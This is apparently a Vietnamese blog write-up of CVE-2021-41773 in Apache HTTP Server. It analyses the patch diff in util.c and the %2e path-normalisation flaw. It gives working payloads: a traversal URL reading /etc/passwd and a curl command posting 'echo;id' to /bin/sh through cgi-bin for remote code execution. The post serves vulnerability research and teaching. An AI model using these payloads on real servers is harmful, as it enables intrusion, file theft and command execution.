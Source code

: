 Vừa qua thì trên mạng xã hội đang hot về [CVE-2021-41773](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773) của Apache HTTP Server, mấy anh em khác đều đã research và upload PoC rồi. Anh trong team có bảo xem qua thử, và mình đọc patch cũng thấy dễ nhìn và mình có thể làm được, nên mình viết lại bài blog này cho vui

Đầu tiên về diff patch. Các bạn có thể lên [Apache](https://httpd.apache.org/security/vulnerabilities_24.html) để đọc thêm về thông tin bug

![](https://github.com/matuhn/matuhn.github.io/raw/master/_posts/41773-1.PNG)

Có thể thấy được là bug đã fix ở phiên bản 2.4.50 (fixed by r1893775 in 2.4.50). Mình sẽ check xem [revision 1893775](https://svn.apache.org/viewvc?view=revision&revision=1893775) đã thay đổi những gì trong source code 

Nhận thấy là bug xuất hiện `httpd/httpd/branches/2.4.x/server/util.c` nên mình đã diff thử util.c của `httpd 2.4.49` và `httpd 2.4.50`

```diff
--- C:\Users\khoa\Downloads\diff\50.c	Fri Oct  1 18:21:11 2021
+++ C:\Users\khoa\Downloads\diff\49.c	Sun Aug 22 04:35:04 2021
@@ -502,8 +502,7 @@
 AP_DECLARE(int) ap_normalize_path(char *path, unsigned int flags)
 {
     int ret = 1;
-    apr_size_t l = 1, w = 1, n;
-    int decode_unreserved = (flags & AP_NORMALIZE_DECODE_UNRESERVED) != 0;
+    apr_size_t l = 1, w = 1;
 
     if (!IS_SLASH(path[0])) {
         /* Besides "OPTIONS *", a request-target should start with '/'
@@ -530,7 +529,7 @@
          *  be decoded to their corresponding unreserved characters by
          *  URI normalizers.
          */
-        if (decode_unreserved
+        if ((flags & AP_NORMALIZE_DECODE_UNRESERVED)
                 && path[l] == '%' && apr_isxdigit(path[l + 1])
                                   && apr_isxdigit(path[l + 2])) {
             const char c = x2c(&path[l + 1]);
@@ -568,17 +567,8 @@
                     continue;
                 }
 
-                /* Remove /xx/../ segments (or /xx/.%2e/ when
-                 * AP_NORMALIZE_DECODE_UNRESERVED is set since we
-                 * decoded only the first dot above).
-                 */
-                n = l + 1;
-                if ((path[n] == '.' || (decode_unreserved
-                                        && path[n] == '%'
-                                        && path[++n] == '2'
-                                        && (path[++n] == 'e'
-                                            || path[n] == 'E')))
-                        && IS_SLASH_OR_NUL(path[n + 1])) {
+                /* Remove /xx/../ segments */
+                if (path[l + 1] == '.' && IS_SLASH_OR_NUL(path[l + 2])) {
                     /* Wind w back to remove the previous segment */
                     if (w > 1) {
                         do {
@@ -595,7 +585,7 @@
                     }
 
                     /* Move l forward to the next segment */
-                    l = n + 1;
+                    l += 2;
                     if (path[l]) {
                         l++;
                     }
```

Có thể nhận thấy trong phiên bản `httpd 2.4.50` team dev của Apache đã decode thêm %2e trong khi normalize path chứ không chỉ check mỗi dấu . như phiên bản `httpd 2.4.49`

```diff
-                /* Remove /xx/../ segments (or /xx/.%2e/ when
-                 * AP_NORMALIZE_DECODE_UNRESERVED is set since we
-                 * decoded only the first dot above).
-                 */
-                n = l + 1;
-                if ((path[n] == '.' || (decode_unreserved
-                                        && path[n] == '%'
-                                        && path[++n] == '2'
-                                        && (path[++n] == 'e'
-                                            || path[n] == 'E')))
-                        && IS_SLASH_OR_NUL(path[n + 1])) {
+                /* Remove /xx/../ segments */
+                if (path[l + 1] == '.' && IS_SLASH_OR_NUL(path[l + 2])) {
```

Từ đây có thể nhận ra là bug sẽ có dạng /xx/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/.../abcxyz. Tiếp theo là tìm cách để trigger Path Traversal ở chỗ này

Mặc định của Apache là không thể nào tác động ra các directory ở ngoài Web Root. Nhưng với [`module/mod_alias.so`](https://httpd.apache.org/docs/2.4/mod/mod_alias.html) thì chúng ta có thể tác động tới các directory bên ngoài nhờ vào `ScriptAlias` hoặc `Alias`

```ApacheConf
<IfModule alias_module>
    #
    # Redirect: Allows you to tell clients about documents that used to 
    # exist in your server's namespace, but do not anymore. The client 
    # will make a new request for the document at its new location.
    # Example:
    # Redirect permanent /foo http://www.example.com/bar

    #
    # Alias: Maps web paths into filesystem paths and is used to
    # access content that does not live under the DocumentRoot.
    # Example:
    # Alias /webpath /full/filesystem/path
    #
    # If you include a trailing / on /webpath then the server will
    # require it to be present in the URL.  You will also likely
    # need to provide a <Directory> section to allow access to
    # the filesystem path.

    #
    # ScriptAlias: This controls which directories contain server scripts. 
    # ScriptAliases are essentially the same as Aliases, except that
    # documents in the target directory are treated as applications and
    # run by the server when requested rather than as documents sent to the
    # client.  The same rules about trailing "/" apply to ScriptAlias
    # directives as to Alias.
    #
    ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"

</IfModule>
```

Mặc định là `/cgi-bin/` sẽ map với `/usr/local/apache2/cgi-bin` nên hoàn toàn có thể craft được payload Path Traversal từ đây 

```
http://host/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![](https://github.com/matuhn/blog/raw/main/CVE-2021-41773/1.png)

Bởi vì mặc định của httpd.conf là CGI module sẽ không được bật, nên thay vì thực thi các path được gọi bởi /cgi-bin/, Apache Server sẽ trả về nội dung các file

Khi [module CGI được bật lên](http://httpd.apache.org/docs/current/howto/cgi.html#page-header) thì ta có thể thực thi các script perl, binary, ... Vậy RCE sẽ xảy ra nếu module CGI được bật lên, cụ thể là

```ApacheConfig
<IfModule !mpm_prefork_module>
	LoadModule cgid_module modules/mod_cgid.so
</IfModule>
```

Kèm theo đó, Apache HTTP Server có 1 [tính năng](http://httpd.apache.org/docs/current/howto/cgi.html#behindscenes) sẽ ghi nhận các giá trị của các parameter và đẩy tất cả vào STDIN dẫn tới việc ta có thể vừa thực thi 1 binary trên server, vừa có thể truyền parameter cho binary đó. Cụ thể là:

```
curl 'http://host/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' -d 'echo;id'
```

![](https://github.com/matuhn/blog/raw/main/CVE-2021-41773/2.png)
